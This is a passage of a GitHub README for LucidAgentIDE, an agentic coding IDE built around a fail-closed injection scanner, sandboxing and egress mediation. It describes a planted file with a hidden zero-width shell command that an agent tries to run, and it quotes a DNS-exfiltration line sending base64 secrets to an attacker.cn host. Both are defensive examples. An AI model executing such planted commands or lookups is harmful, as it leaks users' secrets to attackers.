> **➡️ Install it:** [github.com/mlcyclops/lucidagentide/releases/tag/v2.4.0](https://github.com/mlcyclops/lucidagentide/releases/tag/v2.4.0). Superseded by v2.5.0, which the download buttons, the in-app updater and Homebrew now follow. Installing it over beta.1, beta.2 or 2.3.1 keeps your settings, sessions and sign-ins.

- **✍️ Windows installers signed by TECHLEAD 187 LLC** - the NSIS Setup, the portable `.exe`, the MSI, the AppX, the app executable and every bundled executable are signed through Azure Artifact Signing with the certificate `CN=TECHLEAD 187 LLC` and RFC 3161 timestamped, so the signature stays valid after the certificate expires. What you see: the UAC prompt names **TECHLEAD 187 LLC** as the verified publisher instead of "Unknown publisher", and the same name appears in Explorer's Details tab, Programs and Features, the AppX listing and the About dialog. SmartScreen's "Windows protected your PC" is reputation-based, not signature-based: it fades as signed downloads accumulate, and *More info > Run anyway* shows the publisher until then. The in-app updater now **refuses an update that is not signed by that publisher**, and a release run that cannot sign **fails instead of shipping unsigned**. macOS is still unsigned (no Apple certificate yet), so mac auto-update still goes through Homebrew. *(P-RELEASE.6, P-RELEASE.7, [ADR-0447](DECISIONS.md), [ADR-0450](DECISIONS.md))*
- **🎮 A paired controller with its own token scope** - an external controller you pair gets a token of its own (the pairing store is argon2id-hashed) and talks only to `/api/controller/*` on loopback; it can drive supervised Fleet lanes only, and every prompt it sends passes the fail-closed scanner before anything runs. *(P-CTRL.2, [ADR-0438](DECISIONS.md))*
- **📦 And everything from the betas** - omp 18.8.6, OpenAI sign-in by device code, Microsoft's eXecution Container behind the Windows sandbox, scheduled jobs, the Fleet grid fixes, settings that survive a killed engine and LAN model servers through the egress proxy (ADR-0439..0446); the per-beta notes are on [GitHub Releases](https://github.com/mlcyclops/lucidagentide/releases).

---

> <sub><b>Older releases.</b> Notes for v2.3.1 and earlier, including every beta, are on the <a href="https://github.com/mlcyclops/lucidagentide/releases">GitHub Releases</a> page, which carries the installers for every version; the per-session record is in <a href="PROGRESS.md">PROGRESS.md</a> and the design decisions in <a href="DECISIONS.md">DECISIONS.md</a>.</sub>

---

## 🗣️ Voice mode

> **Put it down and talk to it.** LUCID speaks its replies while it writes them, listens when it finishes,
> and shapes the answer for your ears instead of your eyes - all on the engine you choose, including a fully
> offline one.

<div align="center">


<br><sub><b>Left:</b> the <b>LUCID Agent [Voice]</b> panel popped out and anchored where you want it. <b>Right:</b> the mini strip under the prompt bar.</sub>
</div>

- **🗣️ Hands-free turn-taking.** `Ctrl/⌘+G`. The reply is read aloud, the mic opens the moment it stops
  speaking, a longer silence ends your turn and sends it. Guarded on every side so it can never listen to the
  agent's own voice: it waits for the audio to actually **finish**, not just the text, and echo cancellation is
  requested explicitly. A manual mic stop (`Ctrl/⌘+D`) never auto-sends - that one is still yours to review.
- **⚡ It starts talking after the first sentence.** The streaming answer is chunked on sentence boundaries and
  synthesized a span at a time, so audio begins while the model is still writing. An unterminated code fence is
  withheld, so it never narrates raw source at you.
- **🎛️ Your engine, your voice.** ElevenLabs (your account's cloned voices), ChatGPT/OpenAI, or **Kokoro
  running offline on your own machine** - air-gap safe, no key, nothing leaves the box. The picker sits in the
  composer, remembers a voice **per engine**, and grays out anything that isn't actually configured with the
  reason why.
- **📻 A spectrum analyzer, not an animation.** The bars are driven by the real audio through a Web Audio
  analyzer - log-spaced bands, fast attack and slow release, hanging peak caps. Mini in the prompt bar, or
  popped out as a draggable, snapping, self-remembering panel.
- **🧠 Spoken answers are written for speech.** In conversation mode the agent gets standing, per-turn
  guidance to lead with the answer in two or three plain sentences - no markdown, no paths, no code read aloud -
  and to say the short version out loud when the full answer belongs on screen. Switch the mode off and the very
  next turn is a full written answer again.
- **🔒 Same gate, same rules.** A transcript is ordinary user input and is scanned on send like anything
  typed; a cloud TTS engine is ordinary egress you opt into per engine, and the offline path keeps the audio on
  your machine. Auto-speak is **off by default**.

<sub>*(ADR-0247/0248/0249 · increments P-VOICE.2-.6)*</sub>

---

## 📱 LUCID Remote

> **Your desktop agent, in your pocket - without giving up the security model.** LUCID Remote turns the
> E2E-encrypted live-collaboration plane into a phone-ready remote control for your own machine.

<div align="center">


<br><sub><b>LUCID Remote on a phone</b> - sign in, join your desktop session, and drive it. <em>Screenshot placeholders.</em></sub>
</div>

- **📷 Pair by QR.** The desktop Share panel renders the invite link as a **scannable QR** (a first-party,
  dependency-free encoder - nothing extra touches a server). Point your phone camera, tap, you're in.
- **🔐 Four independent gates.** Google **OAuth** at the rendezvous (Firebase ID-token, verified server-side) →
  the **room key** (E2E AES-256-GCM, carried only in the link fragment) → the **write token** (edit vs
  view-only invite links) → and the host's own **fail-closed scan gate + exec/egress approvals** on every
  remote prompt. A compromised relay yields ciphertext, nothing more.
- **📱 A real guest PWA.** Installable from the browser, bundling the same collaboration modules as the
  desktop - live transcript with thinking + tool calls, a prompt composer, presence, and **preview snapshots**
  of what the agent is building.
- **🏠 Your relay or ours.** Self-host the rendezvous on your own box/jumpbox (anonymous mode, byte-identical
  to before), or use the hosted Cloud Run rendezvous where admission is **claims-gated** - the paid **Remote
  Access** tier (or an admin comp) admits; payment buys rendezvous admission only, never trust.
- **🔁 Survives real networks.** First-frame token auth (never in a URL), heartbeat + reconnect, and same-account
  host **re-claim with a grace window**, so an hourly connection cap or a flaky phone signal doesn't kill the room.

<sub>*(ADR-0226/0227 + ADR-0240-0242 · increments P-REMOTE.1-.10 · relay + PWA are first-party BUSL-1.1)*</sub>

---


## Table of contents

- [🚀 Install or update LUCID v2.5.2, report bugs, pull logs](#-install-or-update-lucid-v252)
- [ What's new in v2.5.2](#-whats-new-in-v252)
- [ What's new in v2.5.1](#-whats-new-in-v251)
- [ What's new in v2.5.0](#-whats-new-in-v250)
- [ Overview](#-overview)
- [ What makes it novel](#-what-makes-it-novel)
- [ Any model, any provider](#-any-model-any-provider)
- [🎯 Who it's for](#-who-its-for)
- [🏢 Where LUCID fits + the enterprise add-on tier](#-where-lucid-fits--the-enterprise-add-on-tier)
- [💰 Token Cost Savings & Showback](#-token-cost-savings--showback)
- [ Architecture](#-architecture)
- [ Security model](#-security-model)
- [ Memory and the personalization graph](#-memory-and-the-personalization-graph)
- [ Models and the AskSage gateway](#-models-and-the-asksage-gateway)
- [📚 Knowledge & RAG](#-knowledge--rag)
- [🤝 Live collaboration](#-live-collaboration)
- [🗣️ Voice mode](#️-voice-mode)
- [📱 LUCID Remote](#-lucid-remote)
- [ Built on](#-built-on)
- [ Quick start](#-quick-start)
- [ Desktop app](#-desktop-app)
- [ Onboarding](#-onboarding)
- [🤝 Contributing](#-contributing)
- [ Roadmap](#-roadmap)
- [ Project docs](#-project-docs)

---

##  Overview

**LucidAgentIDE** wraps [oh-my-pi (omp)](https://omp.sh) - a fast agentic coding runtime that provides
tool-calling, model routing, sessions, sandboxing, and a TUI - with the security/provenance/memory layer
from the project's v3 PRD. The wrapper rides omp's hundreds of releases instead of forking it: everything
is added through **hooks, custom tools, and the SDK**.

The whole system enforces one lifecycle, end to end:

> untrusted text enters → **scanned** → **trust-labeled** → **sanitized** → **persisted with provenance**
> → **blocked at the tool / memory-promotion / dispatch boundaries** → **human-reviewed** → and exits only
> as **safe, audited evidence** - with provenance-tracked recursive runs, replay, and a KV-cache-optimized
> prompt prefix proven by benchmark.

The architecture in one line: **TypeScript on Bun, in-process with omp.** The *only* Python is the pure
Unicode `scanner-sidecar/`, behind a narrow NDJSON contract, so the fail-closed gate that consumes it can
never fail open.

<div align="center">

|  Security |  Provenance |  Memory |
|:--|:--|:--|
| Unicode scanner + fail-closed quarantine gate, in-process on every tool call | Stable IDs, trust labels, and a DuckDB audit trail for every run, finding & approval | Promotion-gated semantic memory **+ a shipped, encrypted, cross-session personalization graph** |

</div>

##  What makes it novel

Thirteen things you rarely find together. Each is in plain language below - the deeper "how" stays proprietary.

| What's novel | What it means for you |
|:--|:--|
| 🛡️ **Security *around* a moving target** | The injection defense lives in omp's extensions, so it upgrades with omp - no fork, no merge debt. |
| 🔒 **A gate that cannot fail open** | If the scanner dies or returns garbage, the gate **blocks** (never "safe"). A test kills it mid-run and the block still holds. |
| 🧱 **Runtime containment, not just approval** | Even after `bash` is approved, the process runs **OS-isolated** (Linux bwrap · macOS Seatbelt today; Windows AppContainer planned for enterprise) and its network is **mediated** - a package that phones home over a DNS lookup at import time is **refused and audited**, while `pip install` still works. |
| 🧬 **Provenance-gated memory** | Suspicious or quarantined content can **never auto-save** into memory. Trust comes from the source, not the caller's word. |
| 🧊 **A cache-stable prompt** | The safety layers are byte-identical on every request. Untrusted text only ever enters **delimited** and **after** the cache point - faster *and* safer. |
| 🏛️ **A gov-grade gateway, gated** | [AskSage](https://asksage.ai) is wired in with a lockdown mode, **scanned** personas, and answers grounded on your own datasets, with citations. |
| 🧠 **An encrypted personalization graph** | A private, encrypted "second brain" the agent learns from you and **recalls across sessions** - CUI-isolated and exportable. *(Shipped.)* |
| 🪪 **AI-authorship attribution** | A tamper-evident ledger of **which model wrote which lines** - per repo, per person, per session. |
| 🌐 **Sovereignty-aware governance** | Gov-only lockdown, curated model lists, and a clear **warning wall** before any foreign-origin model is used. |
| ⬇️ **One-command migration** | Bring your **ChatGPT / Claude / Gemini** history in - every message scanned, then distilled into your private graph. |
| ✍️ **An IDE where _Save_ is scanned** | Edit and save through the **same** gate. A hidden-Unicode payload is blocked **before a byte lands on disk**. |
| 🔁 **Loop engineering, not just a loop** | `/goal` runs an agent to a **verified** finish - with a budget kill switch, stall guards, and an after-action report. |
| 💰 **Cost tracking & showback** | Live per-model spend and cache savings - know exactly what every conversation costs. |

<sub>Loop engineering is inspired by the [loop-engineering](https://github.com/cobusgreyling/loop-engineering) playbook. Every action above still passes the same fail-closed gate.</sub>

---

##  Any model, any provider

**Bring whatever you already pay for.** LUCID doesn't lock you to one vendor - it exposes the model
catalog from the open agent runtime (oh-my-pi) and lets you authenticate **either way**:

- **Sign in with your subscription plan (OAuth).** Use your existing **Claude Pro / Max**, **ChatGPT
  Plus / Pro**, or **Google Gemini** login - no API key, no per-token bill. omp's secure credential vault
  owns the tokens.
- **Or paste an API key (metered).** Pay-as-you-go usage straight from the provider, with the real
  remaining rate limit read from response headers.

Every model in the picker carries a **cost + intelligence card** (token-expense and capability stars, best-use,
context window) so you can pick the right tier at a glance - and the security gate scans every turn the same
way, whichever model you choose.

<div align="center">
<br/>

<br/>
<sub><b>↑ The model picker</b> - 47 models across every connected provider, each with a premium cost + intelligence hover card. Search, then pick by capability and price.</sub>
</div>

### Providers LUCID supports today

| Tier | Providers | Auth |
| --- | --- | --- |
| **U.S. frontier** | **Anthropic** (Claude), **OpenAI** (ChatGPT), **Google** (Gemini), **xAI** (Grok), **Perplexity** (Sonar) | OAuth subscription **or** API key |
| **Government gateway** | **AskSage** - accredited proxy to Claude, GPT, and Gemini inside GovCloud, with scanned personas + dataset-grounded RAG | API key |
| **Local / self-hosted** | **Ollama**, **llama.cpp**, **vLLM**, or any OpenAI-compatible endpoint (incl. one reached over a VPN) - run U.S. open-weight model families like **Gemma**, **Llama**, **gpt-oss**, and **Phi** on your own hardware, fully offline | None, or your endpoint's key (OS-encrypted vault) |
| **More providers** _(third-party / non-U.S. / custom, behind an acknowledgment)_ | **OpenRouter**, **DeepSeek**, **Moonshot / Kimi**, **Groq** | API key |

<sub>The catalog is **driven by omp** - as the runtime adds providers and models in future builds, they appear
in the picker automatically. Non-U.S. / restricted-origin models stay hidden behind a data-sovereignty
acknowledgment, and an enterprise policy can pin the org to the gov gateway only.</sub>

---

## 🎯 Who it's for

| If you are… | Why it matters here |
|:--|:--|
| **Government / regulated / CUI teams** | An AskSage-gated, **sovereignty-aware** agent with hard **CUI isolation**, a fail-closed gate, and a full provenance/audit trail - packaged for **locked-down, air-gapped laptops** with *zero prerequisites* (Bun + the Python sidecar are bundled). |
| **Security-conscious engineers** | Every tool call, **every _Save_**, every persona, and every imported message is scanned by a gate that **cannot fail open**. Prompt-injection defense is the default, not a toggle. |
| **Teams that need governance & showback** | Real **cost per model** with cache-savings showback, plus a tamper-evident ledger of **which model wrote which lines** - so AI spend and AI authorship are both auditable. |
| **Anyone leaving ChatGPT / Claude / Gemini** | **One-command import** brings your history in (gated + distilled into an encrypted personal graph) and keeps your context **across sessions**. |
| **Agent-platform builders** | A worked, test-backed example of adding security, provenance, and memory **around** a fast runtime via hooks/tools/SDK - **extend, never fork**. |

It's a **desktop app you can just download and run** (Windows installer/portable + macOS), and a **source-available codebase** you can study, run from source, and build on. Each role gets a tailored first view plus a written, end-to-end **[role guide](docs/guides/README.md)** (Developer / Security / Manager / Executive).

---

## 🏢 Where LUCID fits + the enterprise add-on tier

LUCID sits in the emerging **secure / sovereign agentic IDE** segment - between the general, cloud-first
AI coding assistants and the assurance that regulated, government, and defense buyers actually require.
The wedge is the part those tools treat as an afterthought: a **fail-closed security gate on every tool
call**, **provenance + AI-authorship attribution**, **air-gappable local models + RAG**, **CUI
isolation**, an **OCSF audit-export** seam, **GPO/MDM enterprise governance**, and the **AskSage
accredited gateway**. A short public write-up of that positioning lives in
**[docs/MARKET-POSITIONING.md](docs/MARKET-POSITIONING.md)**.

**The add-on tier** (a separate, enterprise repository) extends the open core with the reporting and
integration surface larger organizations ask for - hinted here at a high level, not detailed:

- **Executive reporting metrics, per platform** - efficiency / reliability / quality / cost rolled up
  per model **and per deployment**, with weekly/monthly latency dashboards. *(The public core already
  ships the honesty-tiered metric engine + the per-model rollup - v1.10.6, P-EVAL; the add-on adds the
  multi-platform executive view. ADR-A016.)*
- **Showback → chargeback** - the public **Cost & Savings Ledger** deepened into department / project
  chargeback rollups.
- **Agent-development-kit bridges** - export a LUCID agent to **Google ADK · AWS Strands · Azure AI
  Foundry** runtimes. *(ADR-A013.)*
- **Market & competitive analysis** - full segment sizing, a competitive matrix, and a maintained
  **positioning graphic** (the quantitative half of the public write-up above), kept for enterprise
  engagements.

> The open core is fully functional on its own. The add-on tier is optional and enterprise-facing -
> nothing in this repository depends on it.

---

##  Architecture

```text
harness/                  # ALL TypeScript (Bun)
  contracts.ts              # FROZEN: TrustLabel · AgentMode · EventName · ToolResult · Finding
  security/                 # scanner_client (NDJSON, fail-closed) · gate (scanAndDecide)
  memory/                   # DuckDB store · promotion gate (keystone #2) · cross-session recall · migrations 0001-0009
  personal/                 # encrypted personalization graph · distiller · CUI isolation · ChatGPT/Claude/Gemini import
  telemetry/                # stable-id event stream → DuckDB (replayable)
  runs/                     # provenance lineage · sandbox profiles · runtime execution boundary (sandbox_exec · egress_proxy) · replay
  export/                   # safe_export: escaped, sanitized-only by default
  prompt/                   # the frozen prefix + delimited untrusted tail (assembler)
  omp/                      # security_extension (the in-process gate) · asksage_extension (provider)
scanner-sidecar/          # the ONLY Python (uv-managed): pure Unicode scanner + tests
desktop/                  # Electron shell + Bun dev server (chat + live dashboards)
observable/               # P10 observability: activity HUD, context windows, cost ledger
.github/                  # CI (desktop installer build) + brand assets
```

Trust boundary, layered: the **frozen prefix** (identity → tool policy → coding rules → security policy) is
cached; everything volatile - instruction files, *delimited* retrieved content, the task, session state,
working memory - lives in the **tail after the cache breakpoint**. Untrusted bytes never touch the prefix.

##  Security model

| Stage | Mechanism | Guarantee |
|:--|:--|:--|
| **Scan** | `scanner-sidecar/` (pure Unicode) behind NDJSON | finds zero-width, bidi, tag-block, homoglyph, PUA, `Cf` |
| **Decide** | `gate.ts` → `scanAndDecide` | any scan failure ⇒ **block / quarantine** (never "safe") |
| **Gate** | `harness/omp/security_extension.ts` (omp pre-hook) | runs **in-process** on every tool call |
| **Contain** | `harness/runs/sandbox_exec.ts` (bwrap · Seatbelt; Windows AppContainer = enterprise) + `egress_proxy.ts` | an approved process runs **runtime-isolated**; subprocess DNS, CONNECT and plain-HTTP requests are **mediated + audited** (fail-closed) |
| **Label** | closed set `trusted · untrusted · suspicious · quarantined` | no other values exist |
| **Promote** | `promotion_gate.ts` | suspicious/quarantined sources can't enter semantic memory |
| **Export** | `safe_export.ts` | invisibles escaped to `\u{..}`; raw referenced by `sha256`, never inline |

Try it live - a planted file hides a zero-width character in a shell command; the agent reads it, tries to
run it, and the gate blocks the `bash` call:

```
🛡️  [LucidAgentIDE] [BLOCKED tool_call:bash] source=bash trust=quarantined severity=high findings=zero-width
```

The gate that blocks here is the exact one the test suite proves - see [`CLAUDE.md`](CLAUDE.md) for the
load-bearing invariants (fail-closed, extend-don't-fork, frozen contracts, byte-stable prefix).

**Runtime execution boundary (ADR-0157).** Every control above acts on *text, before a process runs*. But
once `bash` / `pip` / `python` is approved and executing, a malicious dependency can still phone home at
**import time** - the classic trick is a package whose `__init__.py` does `socket.gethostbyname("<base64-secrets>.attacker.cn")`,
exfiltrating over a DNS lookup that no argv classifier can catch. LUCID closes that hole *beneath* the gate:
an approved process is **OS-isolated** (Linux **bubblewrap** · macOS **Seatbelt**, picked per platform; where
none is available LUCID says so out loud and the org can require isolation to **fail-closed** instead), and
its network is not raw but **mediated** - every subprocess DNS query, HTTPS CONNECT tunnel and plain-HTTP request (a
LAN model server at `http://host:11434`, say) is routed through a loopback proxy and decided by the **same** curated
egress policy your browser tools already use. So a lookup to a
non-whitelisted or foreign-country host is **refused and audited** (a metadata-only `egress` event to your
SIEM), while `pip install requests` still resolves and works. The whole posture - which backend is active,
whether egress is mediated, and every reach-out the proxy refused - is visible in the Security panel.
*(Linux + macOS enforce today. Fail-closed by construction: no isolating backend under managed policy ⇒
exec is blocked, never silently un-isolated.)*

> **🏛️ Windows runtime containment (planned, enterprise).** A native **Windows AppContainer** backend is
> built and verified for the network-off case (an empty-capability AppContainer has no outbound network at
> all). But **mediated** egress - letting a contained process reach only the loopback proxy while the rest of
> the internet stays blocked - requires a one-time **administrator** loopback exemption at install
> (`CheckNetIsolation`), so full Windows runtime containment ships as a **managed / enterprise** capability
> rather than a standard-install default. Until then, Windows uses the disclosed passthrough for
> network-capable sessions - the argv gate + in-process scanner still apply on every OS.

**Network whitelist + credential vault (ADR-0106).** Beyond the ad-hoc "always allow this site" the per-site
egress gate remembers, Settings → **Network Whitelist** lets you curate an allow-list up front: domain patterns
(`*.com` TLD or exact `api.example.com`) and IP/CIDR ranges, split by **internal (intranet)** vs **external
(internet)** zone, each with an **enforced** trust scope - `always` (every session), `project` (only in that
workspace), or this-`loop` (only during a `/goal` run) - and an optional **per-loop call budget** that caps how
many times a host auto-allows before falling back to the gate. A match **auto-allows** the agent's network calls
to that host - but always *under* your organization's managed policy ceiling, so a managed-denied host is never
granted (tighten-only, fail-closed). You can also **click a DNS pill** in the Network-diagnostics panel to
whitelist a host the agent just resolved. For sites that need auth, attach a credential
(JWT/OAuth/SAML/PEM/API-key/username+password) by pasting it or uploading a file; the secret is stored
**OS-encrypted** (Windows DPAPI / macOS Keychain / Linux libsecret) and the whitelist keeps only a reference,
shown masked as `••••XXXX` (last-4 only) so you can tell keys apart without revealing them - if the OS keystore
is unavailable the store is *refused*, never written in plaintext. Each key shows its **rotation status**
(rotated Nd ago / rotation due / expired) with an optional "rotate every N days" reminder, and a one-click
**Rotate** replaces the secret in place (same reference, fail-closed). Enterprise key management (cloud-KMS custody
across AWS/Azure/GCP/Oracle/IBM, automated rotation, attestation) is a private add-on
([ADR-0107](DECISIONS.md) draws the public/private line).

##  Memory and the personalization graph

**Two memories, both shipped.**

First, a [DuckDB](https://duckdb.org) store holds the agent's working state and a **promotion-gated** semantic
graph. Every fact carries its provenance and a trust label, and poisoned content is blocked from ever being
saved.

On top of that sits a private **personalization knowledge graph** - a "second brain" of your preferences,
decisions, and interests that the agent learns, **recalls across sessions**, and uses to tailor its replies.
You can seed it in minutes by importing a ChatGPT / Claude / Gemini history.

- 🔐 **Encrypted and local-first.** A dedicated **AES-256-GCM** store, with the key sealed by your OS keystore (passphrase fallback). Opt-in.
- 🕸️ **Inspectable.** An interactive node/edge graph you can drill into - and export to an [Obsidian](https://obsidian.md) vault.
- 🏛️ **Honest about FIPS.** FIPS-*approved* algorithms plus OS-keystore key custody. True 140-3 validation is an OS concern, so the app never claims a FIPS *mode* it can't self-certify.

<div align="center">
<br/>

<br/>
<sub><b>↑ Your personalization knowledge graph</b> - imported from a ChatGPT / Claude / Gemini history; click a node to see its facts (trust label + confidence), relationships, and forget/relate controls. Search to find a node; drag to relate. Private, AES-256-GCM encrypted, opt-in.</sub>
</div>

##  Models and the AskSage gateway

Models from any omp provider work out of the box (Claude, GPT, Gemini, …). On top of that, the
[**AskSage**](https://asksage.ai) accredited government AI gateway is integrated as an omp provider extension
([ADR-0007](DECISIONS.md)):

- **Lockdown mode** routes *every* turn through the gov gateway and hides direct providers.
- **Scanned personas** - server-supplied persona text passes the same Unicode scanner before it can enter a
  prompt; flagged personas are blocked.
- **Dataset-grounded RAG** via AskSage's `/query` route, returning **expandable citations** grounded on the
  knowledge bases you select.
- **Premium model picker** with per-model **Token Expense** + **Intelligence Level** ratings and a monthly
  token-quota meter.

Optionally, the on-device [**headroom**](https://github.com/chopratejas/headroom) token-compression proxy can
be enabled to stretch a gov token quota ([ADR-0008](DECISIONS.md)).

<div align="center">
<br/>

<br/>
<sub><b>↑ AskSage gov-gateway "lockdown"</b> - one toggle routes <i>every</i> turn through the accredited gateway and hides direct providers in the model picker; the monthly token-quota meter and personalization (private · encrypted · opt-in) sit alongside.</sub>
</div>

## 📚 Knowledge & RAG

> **The local spine is shipped** ([ADR-0053/0058/0063/0064](DECISIONS.md)): scan-gated PDF ingest into an
> air-gapped DuckDB vector store with real bge-small **semantic retrieval**, injected delimited and
> post-cache. The guided import popup and AskSage dataset training land next as `P-RAG.2-4`. Bring your
> own documents into the agent's context - **two paths, one trust boundary**, both scanned by the same
> fail-closed gate.

- 🔒 **Local-first and air-gapped.** Drag in PDFs and images; they're parsed, embedded, and indexed **entirely on your machine** - no document ever leaves the host.
- 🖼️ **PDF + image ingest.** Local PDF text extraction, plus a caption for each image so it works in multimodal prompts (optional on-device OCR).
- 💻 **Built for a standard laptop.** WASM embeddings (**no GPU, no native binaries**) with **bundled weights**, so it works fully **offline**.
- 🏛️ **Gov-cloud datasets, classification-aware.** Optionally train AskSage datasets from your files - and **CUI is never sent to a Civ endpoint**. The UI tells you where your data goes.
- 🧭 **One guided popup.** A walkthrough with a **parse-and-scan preview** that shows what was extracted, and the gate's verdict, *before* anything is stored.

Every ingested chunk runs the **same lifecycle as everything else** - scanned, trust-labeled, and quarantined
if poisoned, *before* it can ever be embedded or recalled. (Keystone #2 holds for RAG too.)

> **🧠 Compiled KB - a knowledge base that accumulates (shipped).** Built in
> [ADR-0099](DECISIONS.md)/[ADR-0100](DECISIONS.md) (`P-KB.1-2`), a **sibling** to the vector spine you can
> use in parallel or on its own. Instead of opaque chunks, an LLM **compiles** your documents into a
